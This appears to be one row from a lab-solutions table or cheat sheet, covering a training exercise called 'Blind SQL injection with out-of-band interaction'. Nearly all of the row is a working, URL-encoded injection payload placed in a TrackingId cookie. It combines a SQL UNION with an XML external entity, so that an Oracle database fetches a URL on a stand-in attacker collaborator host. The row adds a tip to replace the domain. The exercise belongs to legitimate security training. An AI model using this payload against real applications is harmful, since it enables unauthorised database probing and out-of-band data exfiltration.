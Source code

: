 |39    |Blind SQL injection with out-of-band interaction                                                                         |TrackingId=x'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//BURP-COLLABORATOR-SUBDOMAIN/">+%25remote%3b]>'),'/l')+FROM+dual--                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                      |Combines SQLi with XXE techniques for out of band interaction. Remember to replace the collaborator domain.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |Practitioner, SQLi                          |